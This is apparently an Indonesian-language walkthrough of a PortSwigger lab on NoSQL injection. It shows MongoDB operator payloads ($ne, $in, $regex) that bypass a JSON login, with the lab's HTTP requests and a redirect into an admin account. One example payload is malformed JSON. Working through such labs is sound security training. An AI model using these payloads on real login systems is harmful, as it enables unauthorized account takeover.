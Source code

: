 # NoSQL Injection Lab – Authentication Bypass via Query Operators

## Lab Description

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ae988849-49c1-4d58-a786-6d008dc8fd0c)

---

## Overview

Database **NoSQL** sering menggunakan **query operators** untuk menentukan kondisi yang harus dipenuhi agar data bisa ditampilkan. Contoh query operators pada **MongoDB**:

* `$where` → mencocokkan dokumen yang memenuhi ekspresi JavaScript.
* `$ne` → mencocokkan semua nilai yang tidak sama dengan nilai tertentu.
* `$in` → mencocokkan semua nilai yang terdapat pada sebuah array.
* `$regex` → memilih dokumen yang nilainya sesuai dengan ekspresi reguler.

> Dalam pesan JSON, query operators dapat disisipkan sebagai objek bersarang.
> Contoh: `{"username":"wiener"}` dapat diubah menjadi `{"username":{"$ne":"invalid"}}`.

### Contoh Kasus

Aplikasi rentan menerima data login dalam bentuk JSON berikut:

```json
{"username":"wiener","password":"peter"}
```

Jika kita uji dengan operator `$ne`:

```json
{"username":{"$ne":"invalid"},"password":{"peter"}}
```

Maka query akan mencari semua user dengan username yang **tidak sama dengan "invalid"**.

Jika kedua input (`username` dan `password`) sama-sama memproses operator, maka autentikasi bisa dilewati dengan payload:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Payload tersebut mengembalikan semua kredensial login di mana **username dan password tidak sama dengan "invalid"**, sehingga login berhasil dengan akun pertama di dalam koleksi database.

Untuk menargetkan akun tertentu, kita bisa menggunakan payload:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

Payload ini mencoba login dengan username yang sesuai daftar dan password yang tidak kosong.

---

## Solution

### 1. Login Awal (User Wiener)

Request normal saat login sebagai wiener:

```http
POST /login HTTP/1.1
Host: 0a2e004e0498675c8294e27d00550012.web-security-academy.net
Cookie: session=FidptxGNO2o5A1gT6hVGVo0ahawPmQaa
Content-Type: application/json
...
{"username":"wiener","password":"peter"}
```

### 2. Uji Payload dengan `$in`

Jika digunakan:

```json
{"username":{"$in":"administrator"},"password":{"$ne":""}}
```

Login gagal, karena username admin sebenarnya bukan `administrator` melainkan string acak, misalnya `admin@fra12`.

### 3. Gunakan Operator `$regex`

Untuk login sebagai user dengan username yang diawali kata `admin`, gunakan payload:

```json
{"username":{"$regex":"admin*"},"password":{"$ne":""}}
```

* Payload ini akan mencari semua username yang **diawali dengan kata "admin"**.
* Syarat tambahan `password":{"$ne":""}` memastikan password tidak kosong, sehingga kondisi selalu benar.

### 4. Hasil Respon

Server merespons dengan redirect ke akun admin:

```http
HTTP/2 302 Found
Location: /my-account?id=adminsmto9bvx
Set-Cookie: session=fGElqIm2RxpmcGKeA1faciz8HjHYRQ8G; Secure; HttpOnly; SameSite=None
```

Dari response terlihat bahwa nama akun admin adalah **adminsmto9bvx**.

### 5. Verifikasi Login

Jika dibuka di browser, kita berhasil login sebagai admin. Lab pun berhasil diselesaikan.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/471abd07-405b-4a6f-b76e-9513a383329b)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9c6bfc75-9c52-4764-b8ba-6ae626a50d97)
